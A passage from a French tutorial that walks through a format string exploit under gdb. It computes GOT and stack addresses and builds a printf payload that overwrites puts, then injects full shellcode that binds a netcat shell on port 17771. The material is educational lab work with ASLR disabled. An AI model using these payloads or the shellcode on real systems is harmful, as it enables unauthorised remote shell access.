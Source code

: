 ```  
  
**0xbffff26c** semble être un bon candidat. On ajoutera quelques NOPs également comme marge de manoeuvre, l'objectif étant de tomber dans nos NOPs et de slider jusqu'à notre shellcode.  
  
Ok maintenant les calculs:  
@ de puts: **0x804a014**  
@ du shellcode: **0xbffff26c**  
  
Calcul de la première partie de l'adresse (conversion décimale):
```
(gdb) print 0xbfff - 9 
$3 = 49142
```
```
printf "%x\n" 49142
0xbff6
```

Calcul de la seconde partie de l'adresse :
```
(gdb) print 0xf26c - 0xbff6 - 9
$18 = 12909
```

Ensuite on teste:
```
(gdb) r < <(python -c 'print "A" + "\x14\xa0\x04\x08" + "\x16\xa0\x04\x08" + "%49142x" + "%8$hn" + "%12909x" + "%7$hn" + "\x90"*4 + "A"*100')
```
  
![fmt13]({{ site.url }}/public/images/fmt/fmt13.png)
  
un rapide calcul nous montre qu'il nous reste **63 bytes** pour notre shellcode. 
  
Allons faire notre marché sur [shell-storm](http://shell-storm.org/shellcode/) (cocorico!).  
Celui la est fun: [http://shell-storm.org/shellcode/files/shellcode-872.php](http://shell-storm.org/shellcode/files/shellcode-872.php).  
Il s'agit d'un shellcode qui appelle netcat (/bin/nc) et bind le port 17771 pour le rediriger sur /bin/sh.  
  
Nous adaptons donc notre payload et le testons sous gdb:  
```
(gdb) r < <(python -c 'print "A" + "\x14\xa0\x04\x08" + "\x16\xa0\x04\x08" + "%49142x" + "%8$hn" + "%12909x" + "%7$hn" + "\x90"*4 + "\x31\xc0\x31\xd2\x50\x68\x37\x37\x37\x31\x68\x2d\x76\x70\x31\x89\xe6\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68\x2d\x6c\x65\x2f\x89\xe7\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80"')
```
  
![fmt14]({{ site.url }}/public/images/fmt/fmt14.png) 
  
Here we go, essayons de nous connecter:  

![fmt15]({{ site.url }}/public/images/fmt/fmt15.png)
  
Du coté de notre shellcode:  

![fmt16]({{ site.url }}/public/images/fmt/fmt16.png)
  
Nous pouvons donc en conclure qu'à partir d'un simple appel *printf*, il a été possible d'exécuter un bind shell. Bien évidemment ceci est un cas d'école et a été possible grâce à la désactivation de l'ASLR, rendant ainsi nos adresses prédictibles.

```